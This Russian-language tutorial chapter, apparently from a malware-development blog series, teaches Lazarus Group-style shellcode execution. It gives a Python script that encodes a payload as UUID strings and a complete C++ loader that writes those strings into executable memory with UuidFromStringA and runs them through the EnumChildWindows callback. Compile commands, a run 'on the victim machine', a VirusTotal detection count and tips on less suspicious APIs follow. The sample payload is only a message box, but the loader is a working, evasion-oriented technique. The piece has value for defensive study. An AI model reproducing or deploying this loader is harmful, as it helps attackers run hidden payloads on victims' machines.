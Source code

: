 \newpage
\subsection{35. Трюки разработки вредоносного ПО. Запуск шелл-кода в стиле Lazarus Group. Пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![injection](./images/63/2022-07-22_09-57.png){width="80%"}    

Эта статья является результатом моего собственного исследования ещё одного интересного приёма: запуск полезной нагрузки через `UuidFromStringA` и, например, `EnumChildWindows`.    

### UuidFromStringA

Эта функция преобразует строку в UUID:

```cpp
RPC_STATUS UuidFromStringA(
  RPC_CSTR StringUuid,
  UUID     *Uuid
);
```

Без использования стандартных функций, таких как `memcpy` или `WriteProcessMemory`, эту функцию можно использовать как для декодирования данных, так и для их записи в память.     

Техника выполнения шелл-кода включает следующие шаги:

- Выделение памяти с помощью `VirtualAlloc`    
- Использование `UuidFromStringA` для преобразования UUID-строк в их двоичный формат и сохранения в памяти    
- Использование `EnumChildWindows` (или `EnumDesktopsA`, либо другого подходящего метода) для выполнения ранее загруженной в память полезной нагрузки      

### практический пример

Рассмотрим практический пример. Этот трюк довольно прост, он схож с [предыдущими](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html) приёмами, но с некоторыми изменениями, характерными для Lazarus Group.     

Сначала нам нужен скрипт для преобразования полезной нагрузки в допустимые строки UUID. Например, такой (`payload_uuid.py`):

```python
#!usr/bin/python3

from uuid import UUID
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-p','--payload', required = True, help = "payload: binary file")
args = vars(parser.parse_args())
pbin = args['payload']

with open(pbin, "rb") as f:
    # read in 16 bytes from our input payload
    chunk = f.read(16)
    while chunk:
        # if the chunk is less than 16 bytes then we pad the difference (x90)
        if len(chunk) < 16:
            padding = 16 - len(chunk)
            chunk = chunk + (b"\x90" * padding)
        print(UUID(bytes_le=chunk))
        chunk = f.read(16)
```        

Как обычно, я буду использовать полезную нагрузку с сообщением "meow-meow": `meow.bin`.

Запуск:

```bash
python3 payload_uuid.py -p meow.bin
```
![injection](./images/63/2022-07-22_10-46.png){width="80%"}    

Поскольку теперь у нас есть полезная нагрузка в формате UUID, мы можем создать код доказательства концепции (PoC) для тестирования следующего:

```cpp
#include <windows.h>
#include <rpc.h>
#include <iostream>

#pragma comment(lib, "Rpcrt4.lib")

const char* uuids[] = {
  "e48148fc-fff0-ffff-e8d0-000000415141",
  "56515250-3148-65d2-488b-52603e488b52",
  "8b483e18-2052-483e-8b72-503e480fb74a",
  "c9314d4a-3148-acc0-3c61-7c022c2041c1",
  "01410dc9-e2c1-52ed-4151-3e488b52203e",
  "483c428b-d001-8b3e-8088-0000004885c0",
  "01486f74-50d0-8b3e-4818-3e448b402049",
  "5ce3d001-ff48-3ec9-418b-34884801d64d",
  "3148c931-acc0-c141-c90d-4101c138e075",
  "034c3ef1-244c-4508-39d1-75d6583e448b",
  "01492440-66d0-413e-8b0c-483e448b401c",
  "3ed00149-8b41-8804-4801-d0415841585e",
  "58415a59-5941-5a41-4883-ec204152ffe0",
  "5a594158-483e-128b-e949-ffffff5d49c7",
  "000000c1-3e00-8d48-95fe-0000003e4c8d",
  "00010985-4800-c931-41ba-45835607ffd5",
  "41c93148-f0ba-a2b5-56ff-d54d656f772d",
  "776f656d-0021-5e3d-2e2e-5e3d00909090"
};

int main() {
  int elems = sizeof(uuids) / sizeof(uuids[0]);
  VOID* mem = VirtualAlloc(NULL, 0x100000, 0x00002000 | 0x00001000,
  PAGE_EXECUTE_READWRITE);
  DWORD_PTR hptr = (DWORD_PTR)mem;
  for (int i = 0; i < elems; i++) {
    // printf("[*] Allocating %d of %d uuids\n", i + 1, elems);
    // printf("%s\n", *(uuids+i));
    RPC_CSTR rcp_cstr = (RPC_CSTR)*(uuids+i);
    RPC_STATUS status = UuidFromStringA((RPC_CSTR)rcp_cstr, (UUID*)hptr);
    if (status != RPC_S_OK) {
      printf("[-] UUID convert error\n");
      CloseHandle(mem);
      return -1;
    }
     hptr += 16;
  }

  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
  // EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  CloseHandle(mem);
  return 0;
}
```

Обратите внимание на функцию `UuidFromStringA`. Как я уже писал ранее, вызов этого API с указателем на память вместо указателя на UUID приведёт к тому, что двоичное представление заданного UUID будет сохранено в памяти.     

Связывая множество API-запросов и передавая корректно сформированные UUID, можно загрузить необходимое содержимое (полезную нагрузку) в выбранную область памяти.   

А затем, в качестве указателя на функцию обратного вызова в `EnumChildWindows`, мы указываем этот участок памяти:   

```cpp
EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
```

или другую функцию `EnumDesktopsA`:    

```cpp
EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
```

### Демо

Давайте посмотрим, как всё работает на практике. Компилируем наш "вредонос":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -lrpcrt4
```

![injection](./images/63/2022-07-22_10-56.png){width="80%"}    

Запускаем на машине жертвы:    

```powershell
.\hack.exe
```

![injection](./images/63/2022-07-22_10-58.png){width="80%"}    

Чтобы убедиться, что наша полезная нагрузка действительно запущена, можно немного изменить код:

```cpp
printf("[*] Hexdump: ");
for (int i = 0; i < elems*16; i++) {
  printf("%02X ", ((unsigned char*)mem)[i]);
}
```

Затем снова компилируем:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -lrpcrt4
```

![injection](./images/63/2022-07-22_11-07.png){width="80%"}    

и снова запускаем:   

```powershell
.\hack.exe
```

![injection](./images/63/2022-07-22_11-09.png){width="80%"}    

Как видно, всё работает идеально! :)    

Загружаем `hack.exe` на VirusTotal:    

![injection](./images/63/2022-07-22_14-59.png){width="80%"}    

**Итак, 6 из 68 антивирусных движков обнаруживают наш файл как вредоносный.**    

[https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection](https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection)    

Есть один нюанс. Lazarus Group использует функции `HeapCreate` и `HeapAlloc` вместо:

```cpp
HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
void* mem = HeapAlloc(hc, 0, 0x100000);
```

`HeapAlloc` - это часто используемый API-вызов для выделения памяти в куче.    
Этот API позволяет выделять указанные объемы памяти в куче, в отличие от блоков памяти, полученных с помощью `VirtualAlloc`.
Однако, согласно документации, `HeapAlloc` всё же может вызывать `VirtualAlloc`, если это необходимо.    

Также у него есть преимущество: этот API не выглядит таким подозрительным.    

Кроме того, Lazarus Group использует функцию `EnumSystemLocalesA` для выполнения полезной нагрузки.    

Я надеюсь, что этот пост повысит осведомлённость синих команд об этой интересной технике и добавит ещё одно оружие в арсенал красных команд.    

[nccgroup - RIFT: Analysing a Lazarus Shellcode Execution Method](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/)      
[Lazarus Group](https://attack.mitre.org/groups/G0032/)    
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-07-21-malware-tricks-22)    
